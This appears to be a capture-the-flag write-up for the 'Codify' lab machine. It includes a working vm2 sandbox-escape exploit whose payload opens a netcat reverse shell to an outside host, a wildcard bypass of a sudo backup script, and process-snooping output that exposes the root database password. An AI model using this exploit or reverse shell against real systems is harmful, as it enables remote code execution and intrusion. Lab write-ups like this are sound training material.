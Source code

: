 # Codify Writeup

### Information

| Property       | Value        |
| -------------- | ------------ |
| **Name**       | Codify       |
| **IP Address** | 10.10.11.239 |
| **OS**         | Linux        |
| **Difficulty** | Easy         |

### Enumeration

#### Nmap Scan

```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Hostname:** http://codify.htb/

### Initial Access

#### Port \[80] - \[Codify Web Application]

![](<Codify Writeup - Codify Web Application.png>)

The application serves an Node JS editor in a sandboxed environment using [vm2 library](https://github.com/patriksimek/vm2)

![](<Codify Writeup - Editor.png>)

**Vulnerability Exploited**

VM2 library sufferes from a[ sandbox escape vulnerability](https://www.bleepingcomputer.com/news/security/new-sandbox-escape-poc-exploit-available-for-vm2-library-patch-now/)  that makes it possible to execute unsafe code on a host running the VM2 sandbox.

**Exploitation Steps**

Executing the following code will result in a reverse shell establishment:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 1337 >/tmp/f'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

The malicious code gets executed a low priveleged user called **scv**, we need to escalate our priveleged to the second user called **Joshua.**

#### User Access

The tickets database found under /var/www/contact contains Joshua hashed password.

```bash
(remote) svc@codify:/var/www/contact$ strings tickets.db 
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/<REDACTED>G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open

```

**User Flag**

Cracking the password will reveal the user's password which can be used to establish an ssh connection to the box.

### Privilege Escalation

Joshua can run the following script with elevated privileges:

```
joshua@codify:~$ sudo -l 
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

No escaping on the user password can be bypassed with a wildcard character:

Resource: https://superuser.com/questions/1056183/using-a-wildcard-in-a-condition-to-match-the-beginning-of-a-string

Then running pspy with recursive mode on the backup directory to retrieve the password when the mysqldump command gets executed:

```bash
./pspy64 -r /var/backups/mysql
...
2023/11/13 19:58:28 CMD: UID=0     PID=1      | /sbin/init 
2023/11/13 19:58:29 CMD: UID=0     PID=23715  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23714  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23713  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23725  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23724  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2023/11/13 19:58:31 CMD: UID=0     PID=23729  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23728  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12REDACTEDkjh3 sys 
...

```

**Root Flag**

The extracted password is the root password and can be used to su through.

### Conclusion

1. **Initial Access:**
   * **Tactic:** Exploit Public Facing Application
   * **Technique:** Exploitation for Client Execution
   * **MITRE ATT\&CK ID:** T1190
2. **Execution:**
   * **Tactic:** Execution
   * **Technique:** Exploitation for Client Execution
   * **MITRE ATT\&CK ID:** T1203
3. **Privilege Escalation:**
   * **Tactic:** Privilege Escalation
   * **Technique:** Abuse Elevation Control Control Mechanism
   * **MITRE ATT\&CK ID:** T1548.002
4. **Credential Access:**
   * **Tactic:** Credential Access
   * **Technique:** Input Capture
   * **MITRE ATT\&CK ID:** T1056

![](<Codify Writeup - Mitre Attack Mapping-1.png>)

### Additional Notes

#### Defensive Techniques

* Keep software and libraries up to date to patch known vulnerabilities.
* Implement proper input validation and sanitization in the web application to prevent injection attacks.
* Review and restrict sudo permissions to only necessary commands and users.
* Don't input sensitive data, such as passwords, directly as bash commands from the command line to prevent accidental exposure.
